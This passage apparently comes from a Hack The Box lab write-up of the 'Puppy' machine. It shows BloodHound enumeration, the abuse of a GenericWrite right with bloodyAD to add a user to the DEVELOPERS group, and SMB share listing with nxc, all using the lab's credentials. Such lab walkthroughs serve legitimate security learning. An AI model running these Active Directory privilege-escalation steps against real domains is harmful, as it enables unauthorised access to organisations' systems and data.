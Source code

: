```bash
$ bloodhound-python -ns 10.10.11.70 -d puppy.htb -u levi.james -p 'KingofAkron2025!' --zip -c ALL
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: puppy.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 10 users
INFO: Found 56 groups
INFO: Found 3 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.PUPPY.HTB
INFO: Done in 00M 47S
INFO: Compressing output into 20250922205505_bloodhound.zip
```

![HR_group_GenericWrite_on_DEVS_group.png](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/refs/heads/master/assets/htb/puppy/HR_group_GenericWrite_on_DEVS_group.png)

we can use it to add `levi.james` to the `DEVELOPERS` group

```bash
$ bloodyAD --host 10.10.11.70 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add groupMember "DEVELOPERS" "levi.james"
[+] levi.james added to DEVELOPERS
```

now if we check the shares again we find that we have `READ` permissions on the `DEV` share

```bash
$ nxc smb puppy.htb -u levi.james -p 'KingofAkron2025!' --shares
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
SMB         10.10.11.70     445    DC               [-] Provided Neo4J credentials (admin:) are not valid.
SMB         10.10.11.70     445    DC               [*] Enumerated shares
SMB         10.10.11.70     445    DC               Share           Permissions     Remark
SMB         10.10.11.70     445    DC               -----           -----------     ------
SMB         10.10.11.70     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.70     445    DC               C$                              Default share
SMB         10.10.11.70     445    DC               DEV             READ            DEV-SHARE for PUPPY-DEVS
SMB         10.10.11.70     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.70     445    DC               NETLOGON        READ            Logon server share
SMB         10.10.11.70     445    DC               SYSVOL          READ            Logon server share
```